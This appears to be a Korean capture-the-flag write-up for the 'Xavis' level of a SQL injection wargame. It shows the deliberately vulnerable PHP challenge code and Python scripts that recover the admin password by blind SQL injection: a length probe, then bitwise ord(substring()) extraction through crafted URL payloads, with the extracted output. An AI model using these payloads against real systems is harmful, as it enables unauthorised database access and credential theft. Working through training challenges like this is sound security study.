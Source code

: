 # Level 19 - Xavis

## 문제

![문제](screenshot/L19_Xavis_prob.PNG)

## 문제 의도

- php 소스를 읽을 줄 아는가?
- Blind-SQLi를 수행할 수 있는가?

## 코드 분석

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe");
  // regex, like 가 필터링 되었다.
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis");
  highlight_file(__FILE__);
?>
```

## 문제 풀이

LIKE 문이 차단되었으므로 substr() 함수 같은 걸로 pw 값을 찾아내기 위해 쿼리를 짜서 코드를 돌렸는데, 왠지 모르게 그동안 먹혔던 charset이 통하지 않았다. 그동안 알파벳 소문자와 숫자로만으로도 pw 값을 알아낼 수 있으나, pw 첫번째 문자부터 알아 낼수 없는 것으로 보아, pw 값은 일반적인 ASCII가 아닌 유니코드 값일 수 있겠다고 생각이 들었다ㅠ

이번 문제는 간단한 문자값 대입이 아닌 비트연산으로 문자를 추출함으로 문제를 해결했다. 많은 사람들의 코드를 참고했다.

```python
def getlength(headers, cookies):
    print("[+] Figuring pw LENGTH...")
    length = 1
    while True:
        url1 = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php"
        url2 = "?pw=-1' or 1=1 and id='admin' and LENGTH(pw)=" + str(length) + "-- -"

        res = requests.get(url1+url2, headers=headers, cookies=cookies)
        if str(res.text).find("<h2>Hello admin</h2>") != -1:
            return length
        else:
            length = length + 1
```

length() 함수로 admin의 pw 필드의 길이를 알아낸다. 총 40 바이트 였다.

```python
def getpassword(headers, cookies, pwLen):
    concat = ''
    for i in range(1, pwLen + 1):
        findPw = 0
        bit = ''
        for j in range(32):
            #print shootUrl
            url1 = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php"
            url2 = "".join([
                "?pw=1%27||id=%27admin%27%26%26ord(substring(pw,",
                str(i),
                ",1))%26pow(2,",
                str(j),
                ")%23"
            ])
            data = requests.get(url1+url2, headers=headers, cookies=cookies)
            if str(data.text).find(r"Hello admin") != -1:
                bit.join('1')
                findPw = findPw + pow(2, j)
            else:
                bit.join('0')
        if findPw == 0:
            break
        else:
            print("[{:d}] th char : 0x{:04x} {}".format(i, findPw, bit[::-1]))
            concat = concat + chr(findPw)
    print(concat)
```

orb(substring()) 로 pw 필드에서 문자를 가져온후, 각 비트에 AND 연산을 해 0인지 1인지 알아낸 다음 값을 쌓는다. 쌓은 값은 후에 chr() 함수로 UTF-8 문자로 변환해 concat 변수에 하나하나 쌓는다.

블랙펄 라이트업을 따라했는데 잘 돌아갔다. 내가 한건 아무리 해도...크흡

```text
출력:
[+] Assumed PW LENGTH :  40
[1] th char : 0x00b8
[2] th char : 0x00f9
[3] th char : 0x00c5
[4] th char : 0x00b0
[5] th char : 0x00c6
[6] th char : 0x00d0
[7] th char : 0x00c4
[8] th char : 0x00a1
[9] th char : 0x00a4
[10] th char : 0x00bb
¸ùÅ°ÆÐÄ¡¤»
```

각 문자 값을 뽑아낸 후에 차곡차곡 쌓아놓은 concat `¸ùÅ°ÆÐÄ¡¤»`을 출력한다. 이 문자열을 pw 필드에 넣으면 문제를 해결 할 수 있다.
![solve](screenshot/L19_Xavis_clear.PNG)

## Reference (생명의 은인)

- [MYSQL ORD() FUNCTION](https://www.w3resource.com/mysql/string-functions/mysql-ord-function.php)